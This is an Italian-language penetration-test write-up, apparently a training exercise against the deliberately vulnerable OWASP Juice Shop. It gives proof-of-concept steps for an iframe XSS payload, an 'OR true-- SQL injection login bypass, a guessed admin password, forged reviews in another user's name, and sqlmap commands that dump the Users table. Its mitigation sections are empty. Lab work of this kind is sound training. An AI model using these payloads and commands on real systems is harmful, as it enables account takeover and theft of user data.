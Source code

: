 # Summary
* [XSS: iframe](#xss_iframe)
* [Sensitive Data Exposure: robots.txt](#robots_txt)
* [SQL Injection: 'OR true--](#sql_injection_1)
* [Weak password: admin admin](#weak_pwd)
* [Broken access control: bender's review](#bender_review)
* [SQL Injection: --dump-all](#sql_injection_whole)


# Vulnerabilities

## XSS: *iframe* <a name="xss_iframe"></a>
### Description
La barra di ricerca nella pagina principale è vulnerabile agli xss usando gli iframe
### Proof of Concept 
Scrivere il seguente payload nella barra di ricerca
```javascript
<iframe src="javascript:alert(`xss`)">
```
### Risk assessment
### Mitigation

## Server misconfiguration: *robots.txt* <a name="robots_txt"></a>
### Description
E' possibile accedere al file robots.txt, il quale restituisce il seguente output:
```
User-agent: *
Disallow: /ftp
```
Andando nella cartella /ftp è possibile accedere a diversi file
![](images/robots.png)
### Proof of Concept
Andare all'url /robots.txt \
Andare all'url /ftp
### Risk assessment
### Mitigation

## Sql Injection: *'OR true--* <a name="sql_injection_1"></a>
### Description
E' possibile autenticarsi come admin sfruttando una sql injection 
nella pagina di login. 
### Proof of concept
Andare all'url /#/login
scrivere nel campo email 
```
'OR true--
```
Andando su /profile si vede che si è stati autenticati come admin,
con email admin@juice-sh.op.
![](images/sql-inj1.png)
### Risk Assessment
### Mitigation

## Weak password: admin admin <a name="weak_pwd"></a>
### Description
E' possibile trovare facilmente la mail dell'admin leggendo tra le recensioni dei
prodotti.
Facendo qualche tentativo sono riuscito ad autenticarmi come admin indovinando la password
### POC
* leggendo le recensioni di *Apple juice (1000 ml)*, si trova la mail admin@juice-sh.op
* Loggarsi con la password *admin123*
### Risk Assessment
### Mitigation

## Broken access control: bender's review <a name="bender_review"></a>
### Description
E' possibile scrivere una recensione di un prodotto a nome di un altro utente 
### POC
Ho prima effettuato l'ordine di un prodotto. Poi andando su 
Account > Orders and Payments > Order history
è possibile scrivere una review per uno dei prodotti acquistati.
Ho scritto la review e ho intercettato la richiesta
![](images/benders_review_request.png)
e prima di inviarla ho modificato nel body il campo *author* inserendo la mail di un altro utente,
ovvero bender@juice-sh.op. Risultato:
![](images/benders_review_final.png)
### Risk assessment
### Mitigation

## SQL Injection: dump whole db <a name="sql_injection_whole"></a>
L'endpoint */rest/products/search?q=\** per la ricerca dei prodotti è vulnerabile alle boolean-based blind sql injections.
E' possibile ottenere il dump di tutte le tabelle del db. L'attacco è stato condotto sfruttando 
il tool automatico *sqlmap.py*, passando come input ![request.txt](payloads/request.txt) catturata con Burp.
### POC 
* Per ottenere il tipo di dbms: \
    `python sqlmap.py -r request.txt --level=5 risk=3 --banner` \
    Il DBMS è SQLite
* Per ottenere la lista delle tabelle: \
    `python sqlmap.py -r request.txt --level=5 risk=3 --dbms=SQLITE --tables` \
    ![](images/tables.png)
* Per ottenere la tabella Users: \
    `python sqlmap.py -r request.txt --level=5 risk=3 --banner --ignore-code 401 -T Users --dbms=SQLITE -dump` \
    File CSV contenente la tabella Users: ![Users.csv](files/Users.csv)
### Risk Assessment
### Mitigation






